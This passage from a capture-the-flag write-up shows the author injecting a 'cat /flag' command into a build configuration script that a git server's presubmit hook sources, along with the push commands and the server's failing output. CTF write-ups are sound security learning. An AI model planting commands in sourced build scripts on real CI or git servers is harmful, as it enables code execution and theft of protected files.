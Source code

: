 ```sh
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] my-feature -> my-feature (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

Nope. Same error. Looks like even though it's cloning my code into a new repo, it's using the old `build.sh` file. 

Hmm, I wasn't sure what to do in at the point, but I had come up with some reasons why `build.sh` was not overriden. However, inside, it calls `source` on `configure_flags.sh` which is another file in the Git repo. The `source` command simply executes the second bash file commands in the same shell.

Can I try to override `configure_flag.sh` instead? It could be that the usage of another file would make the server use the new one I'm pushing. 

I updated the `configure_flags.sh` file to also include a print. But as another test, I decided to adhere to the comment and also change the version string, just to see what would happen:

```sh
#!/usr/bin/env bash

echo "Test"
cat /flag
# IMPORTANT: Make sure to bump this before pushing a new binary.
VERSION="v0.1.2" # Was v0.1.1
COMMIT_HASH="$(git rev-parse --short HEAD)"
BUILD_TIMESTAMP=$(date '+%Y-%m-%dT%H:%M:%S')

LDFLAGS=(
  "-X 'main.Version=${VERSION}'"
  "-X 'main.CommitHash=${COMMIT_HASH}'"
  "-X 'main.BuildTime=${BUILD_TIMESTAMP}'"
)
# 
```

Pushing again:

```sh
tal@tal:~/hackinggoogle/vrp_repo$ git add configure_flags.sh
tal@tal:~/hackinggoogle/vrp_repo$ git commit -m "Changes configure_flags.sh"
[my-feature b73843b] Changes configure_flags.sh
 1 file changed, 3 insertions(+), 1 deletion(-)
tal@tal:~/hackinggoogle/vrp_repo$ git push --set-upstream origin my-feature --push-option=presubmit
Enumerating objects: 13, done.
Counting objects: 100% (13/13), done.
Delta compression using up to 2 threads
Compressing objects: 100% (9/9), done.
Writing objects: 100% (9/9), 1.03 KiB | 1.03 MiB/s, done.
Total 9 (delta 4), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at b73843b Changes configure_flags.sh
remote: Building version v0.1.2
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] my-feature -> my-feature (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```
